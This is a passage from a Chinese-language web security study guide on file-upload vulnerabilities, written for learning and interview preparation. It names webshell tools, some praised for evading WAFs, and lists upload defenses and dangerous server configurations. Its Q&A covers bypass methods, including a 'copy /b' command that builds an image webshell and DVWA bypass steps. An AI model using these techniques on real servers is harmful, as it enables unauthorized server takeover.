| 工具 | 特点 |
|------|------|
| 中国蚁剑 | 开源，功能全，推荐 |
| 中国菜刀 | 老牌，但已停止维护 |
| Behinder（冰蝎） | 流量加密，绕过WAF |
| Godzilla（哥斯拉） | 流量加密，支持多语言 |

---

## 五、文件上传防御方法

### 5.1 最佳实践

| 防御层 | 方法 | 说明 |
|--------|------|------|
| **后缀白名单** | 只允许 jpg/png/gif | 黑名单（禁止php）易绕过 |
| **文件内容检测** | `getimagesize()` + 重编码 | 验证真实图片格式 |
| **重命名文件** | MD5随机文件名 | 防止预测路径 |
| **目录无执行权限** | 上传目录禁止PHP执行 | 即使上传也无法执行 |
| **文件大小限制** | 限制上传大小 | 防止上传过大木马 |
| **存储分离** | 上传文件存OSS/独立服务器 | 隔离风险 |

### 5.2 危险配置检查

```apache
# Apache .htaccess 危险配置（禁止）
AddType application/x-httpd-php .jpg

# Nginx 危险配置（禁止）
location ~ .*\.(gif|jpg|jpeg|png)$ {
    # 如果这里配了fastcgi解析，会导致图片当PHP执行
}
```

---

## 六、面试高频问题

### Q1：文件上传漏洞的原理？

> Web应用允许用户上传文件，但未严格校验文件类型和内容，导致攻击者上传恶意脚本（如PHP木马），获取服务器控制权限。

### Q2：文件上传有哪些绕过方法？

> 前端绕过（禁用JS）、MIME绕过（改Content-Type）、后缀绕过（php3/phtml/.htaccess）、图片马（copy /b）、解析漏洞（Apache/Nginx/IIS）。

### Q3：图片马怎么制作？

> Windows下用 `copy /b pic.jpg + shell.php shell.jpg`，把图片和PHP木马二进制合并。上传后配合文件包含或解析漏洞执行。

### Q4：DVWA Medium怎么绕过？

> BurpSuite拦截请求，把Content-Type从 `application/x-php` 改成 `image/jpeg`，后端只检查MIME类型就放行。

### Q5：DVWA High怎么绕过？

> 制作图片马通过内容检测，然后配合文件包含漏洞（File Inclusion）让服务器包含并执行图片中的PHP代码。

### Q6：Impossible级别怎么防御的？

> 1. 白名单后缀；2. 用GD库重新生成图片，清除嵌入代码；3. 随机文件名；4. 上传目录无执行权限。

### Q7：Apache解析漏洞？

> Apache从右往左解析多后缀文件，如 `shell.php.jpg`，遇到不认识的 `.jpg` 继续向左，最终把 `.php` 解析执行。

### Q8：Nginx解析漏洞？

> 旧版本Nginx对路径 `/shell.jpg/.php` 会把 `shell.jpg` 当PHP解析。空字节截断 `shell.jpg%00.php` 也是经典漏洞。

### Q9：上传目录为什么要禁止执行权限？

> 即使攻击者上传了木马，如果上传目录没有脚本执行权限（如Apache的 `php_admin_flag engine off`），木马也无法运行，这是最后一道防线。

### Q10：WAF能防御文件上传吗？

> WAF可以拦截常见木马特征，但不能替代代码层防御。攻击者可以用编码、分段、图片马等方式绕过WAF，最终还是要靠白名单+内容检测+目录权限。

---

